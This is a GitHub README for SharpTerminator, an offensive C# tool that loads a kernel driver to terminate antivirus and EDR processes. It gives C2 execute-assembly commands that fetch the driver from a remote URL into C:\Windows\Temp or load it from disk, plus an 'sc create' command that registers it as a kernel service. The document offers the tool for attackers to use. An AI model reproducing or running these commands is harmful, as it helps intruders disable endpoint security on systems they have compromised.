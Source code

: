 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:

![sharpterminator-url](https://github.com/mertdas/SharpTerminator/assets/48562581/ded76930-780a-4ad0-bdf2-43f451be2e6c)


### Load driver from disk and terminate AV/EDR:

![sharpterminatsor-disk](https://github.com/mertdas/SharpTerminator/assets/48562581/ee37b11d-c803-48a9-ac97-0b0c17af1af7)

# Known Issue
If you get "Failed to register the process in the trusted list!" error you should add service manually:<br>
sc create Terminator binPath= "C:\path\to\driver.sys" type= kernel start= demand

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

